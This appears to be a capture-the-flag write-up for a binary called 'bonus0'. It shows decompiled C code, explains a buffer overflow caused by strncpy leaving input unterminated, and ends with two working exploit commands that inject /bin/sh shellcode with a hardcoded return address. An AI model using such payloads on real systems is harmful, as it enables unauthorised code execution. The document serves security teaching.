 ```c
	p(first_input, "Enter first string:");
	p(second_input, "Enter second string:");

	strcpy(final_buffer, first_input);

	length = 0xffffffff;
	tmp_buffer = final_buffer;
	do {
		if (length == 0) break;
		length = length - 1;
	} while (*tmp_buffer++ != '\0');

	final_buffer[length] = ' ';
	final_buffer[length + 1] = '\0';
	strcat(final_buffer, second_input);
	return;
}

void p(char *dest_buffer, char *param2) {
	char temp_buffer[4104];
	char *newline_position;

	puts(param2);
	read(0, temp_buffer, 4096);
	newline_position = strchr(temp_buffer, '\n');
	*newline_position = '\0';
	strncpy(dest_buffer, temp_buffer, 20);
}
```

## BONUS0 - EXPLANATION & SOLUTION


1. Buffer Overflow Vulnerability:

	- The binary accepts two inputs separated by a space and prints them together.
	- The p() function reads up to 4096 characters into a buffer that is not null-terminated.
	- A subsequent call to strncpy() copies the first 20 bytes of the input to another buffer, but it does not add a null terminator if the input exceeds 20 bytes.
	- By providing a first input of exactly 20 characters and a second input that includes carefully crafted data, the lack of null termination allows memory overflow into the return address (EIP).
	- We can exploit this to execute arbitrary shellcode by controlling the flow of execution.


```bash
run < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99" + "A"*4075 + "\n\xb0\x0b\xcd\x80" + "A"*5 + "\x26\xf7\xff\xbf" + "A"*7 ')
```

```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99" + "A"*4075 + "\n\xb0\x0b\xcd\x80" + "A"*5 + "\x26\xf7\xff\xbf" + "A"*7' ; cat) | ./bonus0
```
